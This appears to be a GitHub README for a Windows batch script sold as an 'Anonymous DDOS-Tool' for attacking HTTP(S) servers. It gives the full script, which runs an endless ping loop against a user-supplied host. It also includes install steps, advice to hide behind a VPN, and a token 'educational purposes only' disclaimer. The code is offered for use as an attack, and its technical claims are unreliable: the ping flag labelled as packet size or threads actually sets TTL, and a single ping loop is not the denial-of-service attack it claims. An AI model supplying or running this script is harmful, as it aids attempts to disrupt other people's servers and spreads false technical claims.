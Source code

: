 # DDOS-Tool
Anonymous DDOS-Tool





# About
  
 A script to Attack http(s) servers                                                
 
make sure u have a vpn installed                

how to install a vpn here: https://youtu.be/te8KE71ndso



# Screenshot
![Unbenannt](https://user-images.githubusercontent.com/97392345/153496914-2f9daae4-6c52-42c6-83b3-5df5f23ee946.PNG)


# Install
 1) Copy the folllowing code to youre Notepad:
 
 @echo off
 
mode 67,16

title DDOS Attack by MR Jack

color 0a

cls

echo.
echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo DDOS With Batchfile

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

echo.

set /p x=Server-Target:

echo.

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

ping %x%

echo ÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄÄ

@ping.exe 127.0.0.1 -n 5 -w 1000 > nul

goto Next

:Next

echo.

echo.

echo.

set /p m=ip Host:

echo.

set /p n=Packet Size:

echo.

:DDOS

color 0c

echo Attacking Server %m%

ping %m% -i %n% -t >nul

goto DDOS


2. when u are in the notepad dont forget to remove the Spaces of the code otherwise it wont work

3. its a batch file so save it as whateveruwant.bat
# Usage 


1.  enter the server target 

3.  it will automatically ping the Host. As shown in the Screenshot below:

![ok](https://user-images.githubusercontent.com/97392345/153502726-2b3df918-cdad-4388-84ab-5b08477c6ad1.PNG)
3. Now enter the ip . (u got it from the ping)

4. Now enter how many Threads/Packets u want to send to the server

Enjoy

# Disclaimer  
im not responsible for any Damage caused with this Tool. use it only for educational purposes only.  

